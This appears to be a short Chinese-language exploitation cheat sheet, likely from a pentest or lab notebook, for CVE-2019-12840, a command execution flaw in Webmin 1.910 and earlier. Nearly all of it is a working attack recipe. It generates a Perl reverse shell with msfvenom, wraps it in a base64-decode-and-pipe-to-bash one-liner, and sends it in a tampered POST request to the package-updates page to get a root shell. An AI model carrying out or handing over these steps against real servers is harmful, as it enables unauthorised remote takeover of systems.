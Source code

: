 # webmin <=1.910

```bash
CVE-2019-12840：https://www.exploit-db.com/exploits/46984
```

Webmin 1.910 及更低版本中的任意命令执行漏洞\
直接提权

‍

```bash
1. 生成payload
msfvenom -p cmd/unix/reverse_perl LHOST=<LHOST> LPORT=4422 -f raw > rshell.pl
2. 先payload b64编码，再整段URL编码（如果在浏览器中）
bash -c "{echo,【base64之后的payload】}|{base64,-d}|{bash,-i}"
3. 抓包改包
	1. 增加两个头
Referer: https://10.129.2.1:10000/package-updates/?xnavigation=1
Content-Type: application/x-www-form-urlencoded
	2. 改成post
	3. 放入payload
4. 本地接shell
```
